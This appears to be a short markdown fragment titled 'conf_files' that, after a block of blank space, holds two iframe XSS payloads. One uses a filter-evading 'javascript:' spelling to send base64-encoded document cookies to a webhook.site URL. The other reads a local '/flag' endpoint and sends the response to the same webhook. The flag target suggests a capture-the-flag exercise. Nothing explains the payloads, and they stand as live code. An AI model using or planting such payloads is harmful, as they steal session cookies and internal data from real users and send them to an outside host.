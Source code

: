 # conf_files













<iframe onLoad="javascrscriptipt:fetch(`https://webhook.site/7583c51e-37f4-423d-8f5d-9714de2a9618/v=${btoa(document.cookie)}`)"></iframe onLoad>


<iframe onLoad="fetch(`http://127.0.0.1/flag`).then((response) => response.json()).then((data) => {fetch(`https://webhook.site/7583c51e-37f4-423d-8f5d-9714de2a9618/?flag=${JSON.stringify(data)}`)})"></iframe onLoad>
